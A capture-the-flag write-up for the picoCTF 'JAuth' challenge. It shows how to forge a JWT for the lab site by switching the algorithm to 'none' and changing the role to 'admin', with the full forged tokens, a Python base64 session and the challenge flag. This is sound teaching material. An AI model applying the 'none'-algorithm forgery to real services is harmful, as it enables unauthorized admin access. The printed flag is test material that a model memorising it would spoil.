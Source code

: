 ### JAuth


#Medium #web_exploitation #picoGym #Exclusive

Author: Geoffrey Njogu

#### Description

Most web application developers use third party components without testing their security. Some of the past affected companies are:

- Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
- Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
- VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one?

Can you identify the components and exploit the vulnerable one? The website is running [here](http://saturn.picoctf.net:60826/). Can you become an `admin`? You can login as `test` with the password `Test123!` to get started.


##### Solution:

method 1 use burpsuite
login as `test` with the password `Test123!`
open burpsuite 

![](JAuth/jauth_jwt.png)

JWT token
```css
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzM5ODcxODQzOTYwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEzMy4wLjAuMCBTYWZhcmkvNTM3LjM2Iiwicm9sZSI6InVzZXIiLCJpYXQiOjE3Mzk4NzE4NDR9.edqVC6GyqaRxEvxGsrkTrKDUnPE70z41hxS1rkOLl2A
```

Note that [https://jwt.io/](https://jwt.io/) doesn't work, since algorithm can't be set to `none` in it use this [link](https://token.dev/)

![](JAuth/jauth_jwt_dev.png)

modify Jwt token

![](JAuth/jauth_jwt_dev_modified.png)

```css
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzM5ODcxODQzOTYwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEzMy4wLjAuMCBTYWZhcmkvNTM3LjM2Iiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzM5ODcxODQ0fQ
```

![](JAuth/jauth_auth_failed.png)

not working but why???
to fix this we need to figure out Jwt token
A **JWT (JSON Web Token)** consists of three parts, separated by dots (`.`):

1. **Header**
2. **Payload (Claims)**
3. **Signature**

```css
header.payload.signature
```

Your provided JWT:

```css
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzM5ODcxODQzOTYwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEzMy4wLjAuMCBTYWZhcmkvNTM3LjM2Iiwicm9sZSI6InVzZXIiLCJpYXQiOjE3Mzk4NzE4NDR9.edqVC6GyqaRxEvxGsrkTrKDUnPE70z41hxS1rkOLl2A
```

Now, let's break it down:

### **1️⃣ Header (First part)**

```css
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9
```

Decoded:

```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```

This specifies that the token is a JWT and uses the **HS256** signing algorithm.

---

### **2️⃣ Payload (Second part)**

```css
eyJhdXRoIjoxNzM5ODcxODQzOTYwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEzMy4wLjAuMCBTYWZhcmkvNTM3LjM2Iiwicm9sZSI6InVzZXIiLCJpYXQiOjE3Mzk4NzE4NDR9
```

Decoded:

```json
{
  "auth": 1739871843960,
  "agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36",
  "role": "user",
  "iat": 1739871844
}
```

This contains user-related information, such as:

- `auth`: Possibly an authentication timestamp.
- `agent`: Browser and OS details.
- `role`: The user role (`user`).
- `iat`: Issued at timestamp.

---

### **3️⃣ Signature (Third part)**

```css
edqVC6GyqaRxEvxGsrkTrKDUnPE70z41hxS1rkOLl2A
```

This is generated using the header and payload, along with a **secret key**. It's used to **verify the integrity** of the token.

---

### **Final Breakdown**

|Part|Value|
|---|---|
|**Header**|`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9`|
|**Payload**|`eyJhdXRoIjoxNzM5ODcxODQzOTYwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEzMy4wLjAuMCBTYWZhcmkvNTM3LjM2Iiwicm9sZSI6InVzZXIiLCJpYXQiOjE3Mzk4NzE4NDR9`|
|**Signature**|`edqVC6GyqaRxEvxGsrkTrKDUnPE70z41hxS1rkOLl2A`|

now to fix the error just add dot(.) because third part is missing
```css
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzM5ODcxODQzOTYwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEzMy4wLjAuMCBTYWZhcmkvNTM3LjM2Iiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzM5ODcxODQ0fQ.
```

![](JAuth/jauth_flag.png)

flag is `picoCTF{succ3ss_@u7h3nt1c@710n_bc6d9041}`

2nd method is 
using browser simply put this jwt into cookies and get your flag

----

```css
┌──(kali㉿kali)-[~]
└─$ python3          
Python 3.12.9 (main, Feb  5 2025, 01:31:18) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
>>> base64.b64decode(b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9')
b'{"typ":"JWT","alg":"HS256"}'
>>> base64.b64encode(b'{"typ":"JWT","alg":"none"}')
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0='
>>> base64.b64encode(b'{"auth":1739871843960,"agent":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36","role":"admin","iat":1739871844}')
b'eyJhdXRoIjoxNzM5ODcxODQzOTYwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEzMy4wLjAuMCBTYWZhcmkvNTM3LjM2Iiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzM5ODcxODQ0fQ=='
>>> 
```

final token is

```css
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=

eyJhdXRoIjoxNzM5ODcxODQzOTYwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEzMy4wLjAuMCBTYWZhcmkvNTM3LjM2Iiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzM5ODcxODQ0fQ==

```

remove `==` sign and combine them with dot `(.)`

```css
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzM5ODcxODQzOTYwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEzMy4wLjAuMCBTYWZhcmkvNTM3LjM2Iiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzM5ODcxODQ0fQ
```

add another dot `(.)` for complete three part of jwt `header.payload.signature`

```css
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzM5ODcxODQzOTYwLCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NCkgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEzMy4wLjAuMCBTYWZhcmkvNTM3LjM2Iiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzM5ODcxODQ0fQ.
```
